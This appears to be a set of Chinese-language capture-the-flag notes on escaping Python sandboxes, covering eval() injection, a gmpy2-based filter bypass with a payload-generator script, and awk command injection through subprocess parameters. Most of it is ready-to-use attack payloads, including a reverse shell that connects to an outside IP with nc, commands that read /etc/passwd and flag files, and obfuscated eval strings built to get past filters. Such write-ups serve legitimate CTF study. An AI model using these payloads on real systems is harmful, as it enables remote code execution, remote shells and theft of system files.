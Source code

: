 ## **python沙箱逃逸执行危险函数**
<https://blog.csdn.net/Jayjay___/article/details/132436072>


## **十六进制编码**
十六进制编码在Python字符串中是合法的，因为它是Python语言规范的一部分。当Python解释器读取到这样的编码时，它会将十六进制数转换成对应的字符。


^
## **eval()函数利用**
python报错后显示了代码：eval(a + operator + b)
```
拼接传参b
/_calculate?number1=1&operator=-&number2=1,__import__ ('os').system('nc 120.46.41.173 9023 -e /bin/sh')
```

```
eval(__import__('os').popen('cat /etc/passwd').read());
eval(__import__('os').popen('cat /f*').read());
```

^
## **eval存在过滤**
eval(code)
要求code存在gmpy2数组中
```
知道gmpy2以下可以命令执行：
gmpy2.__builtins__['eval']("__import__('os').popen('tac /flag').read()")

则需要对eval和__import__('os').popen('tac /flag').read()进行内含的数组中绕过
即：
gmpy2.__builtins__['erf'[0]+'div'[2]+'ai'[0]+'lcm'[0]]('c_div'[1]+'c_div'[1]+'ai'[1]+'agm'[2]+'cmp'[2]+'cos'[1]+'erf'[1]+'cot'[2]+'c_div'[1]+'c_div'[1]+"("+"'"+'cos'[1]+'cos'[2]+"'"+")"+"."+'cmp'[2]+'cos'[1]+'cmp'[2]+'erf'[0]+'jn'[1]+"("+"'"+'cot'[2]+'ai'[0]+'cmp'[0]+" "+"/"+'erf'[2]+'lcm'[0]+'ai'[0]+'agm'[1]+"'"+")"+"."+'erf'[1]+'erf'[0]+'ai'[0]+'add'[1]+"("+")")

```
生成脚本
```
s="__import__('os').popen('tac /flag').read()"

import gmpy2

payload="gmpy2.__builtins__['erf'[0]+'div'[2]+'ai'[0]+'lcm'[0]]("

for i in s:
        if i not in "/'(). ":
                temp_index=0
                temp_string='x'*20
                for j in dir(gmpy2):
                        if j.find(i)>=0:
                                if len(j)<len(temp_string):
                                        temp_string=j
                                        temp_index=j.find(i)
                payload+=f'\'{temp_string}\'[{temp_index}]+'
        else:
                payload+=f'\"{i}\"+'

payload=payload[:-1]+')'

print(payload)
```



^
## **subprocess运行外部命令**
使用了 Python 的 `subprocess` 模块来运行外部命令：
```
tVar = subprocess.run([cmd[:3], param, __file__], cwd=os.getcwd(), timeout=5)
```
1. `subprocess.run`: 这是 `subprocess` 模块中的一个函数，用于运行外部命令。
2. `cmd[:3]`: 这是一个列表，包含了外部命令的可执行文件和它的参数。`cmd[:3]` 表示取 `cmd` 列表的前三个元素，可能是外部命令的可执行文件和一些参数。
3. `param`: 这是一个变量，作为外部命令的参数。
4. `__file__`: 这是一个变量，表示当前脚本的文件名。
5. `cwd=os.getcwd()`: 这是 `subprocess.run` 函数的参数，指定了子进程的当前工作目录。`os.getcwd()` 返回当前工作目录。
6. `timeout=5`: 这是 `subprocess.run` 函数的参数，指定了运行外部命令的超时时间，单位是秒。在这里，设置为 5 秒。

cmd是执行的命令，param是执行的参数
python中有一个awk命令，可以执行系统命令，长度刚好为3
格式为：awk '(system("ls")' 
通过抓包分析，传参方式为post，根据可控参数cmd和param
通过awk构造payload
payload:
cmd=awk&param={system("ls")}//查看当前路径下所有文件
cmd=awk&param={system("cat fla*")}//查爱fLag文件的内容

